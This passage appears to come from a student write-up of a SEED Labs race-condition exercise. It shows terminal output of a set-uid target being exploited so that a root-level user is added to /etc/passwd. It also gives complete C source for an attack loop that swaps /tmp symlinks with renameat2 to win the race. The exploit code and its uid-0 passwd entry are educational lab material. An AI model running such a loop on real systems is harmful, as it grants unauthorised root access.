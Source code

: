 In one terminal we run the `target_process.sh` and in another, we first compile the attack script by issuing the `gcc attack.c -o attack` command and then we run it. The result is as follows:

```
┌──(kali㉿kali)-[~/…/seed-labs/category-software/Race_Condition/Labsetup]
└─$ ./target_process.sh
STOP... The passwd file has been changed
```

As a result, when we inspect the `/etc/passwd` file we see that the new high-privileged test user is created.

```
┌──(kali㉿kali)-[~]
└─$ cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
...
kali:x:1000:1000:Kali,,,:/home/kali:/usr/bin/zsh

test:U6aMy0wojraho:0:0:test:/root:/bin/bash  
```

### Task 2.C

By changing the attacking script to the following one we were able to correct the annoying issue that we were presented in the previous task, which was related to the fact that the `/tmp/XYZ` was being unlinked after the `access()`, but before the `fopen()` calls. Consequently, the program would create a root-owned file, due to the presence of the `a+` flag in the `fopen()` and our attack would fail. By switching atomically the `/tmp/XYZ` link in a loop between the `/dev/null` and `/etc/passwd` files we were able to get our attack to succeed much faster this time. This is since now there's isn't a gap between the `unlink()` and `symlink()` calls which was the problem in the previous task. The fact that now this switching of where the link is pointing to happens atomically makes our race-condition not to happen.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <stdbool.h>

int main()
{
    unsigned int flags = RENAME_EXCHANGE;
    unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
    unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
    
    while(true) {
        renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
    }

    return 0;
}
```

